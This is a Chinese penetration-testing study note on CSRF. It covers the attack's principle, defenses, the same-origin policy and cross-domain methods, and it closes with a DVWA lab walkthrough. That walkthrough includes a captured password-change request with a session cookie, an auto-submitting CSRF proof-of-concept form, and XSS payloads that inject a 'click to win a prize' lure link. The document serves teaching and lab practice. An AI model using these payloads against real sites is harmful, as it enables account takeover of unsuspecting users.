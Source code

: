 ```yaml
---
title: CSRF
index: true
isOriginal : true
date: 2023-03-25
order: 7
category:
  - 渗透测试
tag:
  - 渗透测试
  - CSRF
---
```

跨站请求伪造(Cross-site request forgery,CSRF)是一种攻击，它强制终端用户在当前对其进行\<span data-type\="text" style\="color: var(--b3-font-color9);"\>身份验证后的Web应用程序
上执行非本意的操作\<span\>。CSRF攻击的着重点在伪造更改状态的请求，而不是盗取数据，因为攻击者无法查看对伪造请求的响应

### CSRF漏洞的原理

(用DVWA举例)

1. `47.113.187.190:36974/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change`这个网站在用户修改个人的信息时没有过多的校验，导致这个请求容易被伪造。
2. 目的：我们可以伪造请求，修改他人信息

    条件：<span data-type="text" style="color: var(--b3-font-color9);">1.对方也登陆的该网站  2.对方点击了链接触发修改信息的伪请求</span>（二者缺一不可）

![image](assets/image-20240918223718-rpe8m6l.png)

### 防御措施

防止这些操作出现被伪造的情况，从而导致CSRF。

0. 验证<span data-type="text" style="color: var(--b3-font-color9);">Referer</span>，如果Referer是其他网站的话，就可能是CSRF攻击。检测绕过：referer头留空
1. 对敏感信息的操作增加安全的<span data-type="text" style="color: var(--b3-font-color9);">token</span>，可以在HTTP请求中参数形式加入一个随机token，并在服务器端建立拦截器验证token。
2. 对敏感信息的操作前增加<span data-type="text" style="color: var(--b3-font-color9);">二次验证</span>；
3. 及时退出网站，不随意点击链接/图片。

### 把token放置在cookiet中，能否防护csrf

不能，csrf冒用cookie,放置在cookie中直接被利用

### CSRF需不需要获取cookie

不需要，cookie是存储在浏览器内，不需要获取cookie,本质是在冒用用户cookie

### CSRF与XSS的区别

1. XSS攻击的是客户端，CSRF攻击的是服务端
2. XSS主要是获取身份信息cookie.csrf是冒用用户身份，不获取cookie
3. XSS是将语句插入html页面中，盗取到了用户的权限，然后实施破坏。
4. CSRF是冒用用户身份，借用户的权限完成攻击，攻击者并没有拿到用户的权限。
5. CSRF危害更大，防御难度比XSS高

### 同源策略

如果两个页面的<span data-type="text" style="color: var(--b3-font-color9);">协议</span>，<span data-type="text" style="color: var(--b3-font-color9);">端口</span>（如果有指定）和<span data-type="text" style="color: var(--b3-font-color9);">域名</span>都相同，则两个页面具有相同的源；是浏览器用于隔离潜在恶意文件的重要安全机制。不同源的客户端脚本在没有明确授权的情况下，不能读写对方资源。

#### 受约束对象

DOM、Cookie、第三方插件、XMLHttpRequest

#### 不受约束对象

```bash
页面中的链接\<a href\="\">、重定向、表单action:\=””，提交是不会受到同源策略限制的。
跨域资源的引入是可以的。但是js不能读写加载的内容。如嵌入到页面中的\<script\>,\<img\>,\<link\>,\<iframe\>等带src属性的标签。
```

#### 非同源受到的限制

Cookie、LocalStorage、IndexDB无法读取、DOM无法获得、AJAX请求不能发送

### 跨域

受同源策略的影响，<span data-type="text" style="color: var(--b3-font-color9);">不是同源的脚本不能操作其他源下面的对象</span>。想要操作另一个源下的对象是就需要跨域，把<span data-type="text" style="color: var(--b3-font-color9);">不同域之间请求数据的操作，称为跨域</span>。

### 跨域方法

#### document.domain跨域

若两个页面一级域名相同，只是二级域名不同，那么<span data-type="text" style="color: var(--b3-font-color9);">浏览器可以通过设置document.domain来共享Cookie</span>

**注意**

1.只能在<span data-type="text" style="color: var(--b3-font-color9);">父域名与子域名</span>之间使用
2.存在安全性问题，当一个站点被攻击后，另一个站点会引起安全漏洞
3.只适用于Cookie和iframe窗口。

#### JSONP跨域

利用\<script\>的src不受同源策略约束实现跨域获取数据。
Jsonp(JSON with Padding)是json的一种"<span data-type="text" style="color: var(--b3-font-color9);">使用模式</span>"，可以让网页从<span data-type="text" style="color: var(--b3-font-color9);">别的域名（网站）那获取资料</span>，即跨域读取数据。

**注意**

1.存在安全性问题，需要网站双方商议基础token的身份验证
2.只能是GET,不能POST
3.可能被注入恶意代码，篡改页面内容，可以采用字符串过滤来规避此问题。

#### CORS跨域

<span data-type="text" style="color: var(--b3-font-color9);">CORS全称Cross-Origin Resource Sharing</span>,跨域资源共享，是HTML5的一个新特性，已被所有浏览器支持，不同于古老的
jsonp只能get请求。CORS允许浏览器向跨域服务器发出XMLHttpRequest请求。如果

利用JavaScript无法控制HTTP头的特点，通过目标返回的HTTP头授权是否允许跨域访问。

Access-Control-Allow-Origin:a.baidu.com #b.baidu.com可以访问我的资源

Access-Control-Allow-Origin:null   #谁都可以访问 有的浏览器不支持这样写

Access-Control-Allow-Origin:\*       #谁都可以访问

```php
a.com想得到b.com中的内容，在b.com里面添加响应头声明允许a.com的访问
添加：Access-Control-Alow-Origin:http:/a.com然后a.com就可以用ajax获取b.com里的数据了
```

#### 跨域利用

1. 同于csrf跨站请求伪造，发送钓鱼链接，读取用户敏感数据。
2. 跨站请求，获取cookie
3.  请求攻击服务器的恶意js等代码

### DVWA中**利用XSS漏洞和csrf漏洞修改密码**

1. 登陆DVWA靶场

    目前账号密码为：admin/password
2. 攻击者通过CSRF模块抓包

    ![image](assets/image-20240918183204-hijttk5.png)
3. 攻击者提取到的修改密码的包

    ```php
    GET /vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change HTTP/1.1
    Host: 47.113.187.190:36974
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate, br
    Connection: close
    Referer: http://47.113.187.190:36974/vulnerabilities/csrf/
    Cookie: PHPSESSID=9sn4v5t9pr06kaqlmpmhetkds4; security=low
    Upgrade-Insecure-Requests: 1
    Priority: u=0, i

    ```

4. 攻击者伪造该包

    ```php
    <html>
      <!-- CSRF PoC - generated by Burp Suite Professional -->
      <body>
        <form action="http://47.113.187.190:51594/vulnerabilities/csrf/">
          <input type="hidden" name="password&#95;new" value="123456" />
          <input type="hidden" name="password&#95;conf" value="123456" />
          <input type="hidden" name="Change" value="Change" />
          <input type="submit" value="Submit request" />
        </form>
        <script>
          history.pushState('', '', '/');
          document.forms[0].submit();
        </script>
      </body>
    </html>
    ```

    ![image](assets/image-20240918183504-s3wqdpx.png)

5. 其次我们在XSS模块注入用户触发改密码的a标签

    ```php
    payload：</div><a href="http://burpsuite/show/4/mzeu3hmxur1v9r0m4mf44md8qglhej5n">点击中大奖</a><div>
    ```

    ![image](assets/image-20240918194256-pw9oock.png)
6. 当用户点击该链接，用户密码就会被修改

    ![image](assets/image-20240918193516-gnomibr.png)

    ![image](assets/image-20240918193748-gcc3yig.png)
7. 刚才是请求bp代理的服务，如果将链接放到公网，只要用户点击会被改密

    ![image](assets/image-20240918202104-jjuzwk1.png)

    ```php
    payload：</div><a href="http://47.113.187.190:90/dvwa_csrf+xss.html">点击中大奖</a><div>
    ```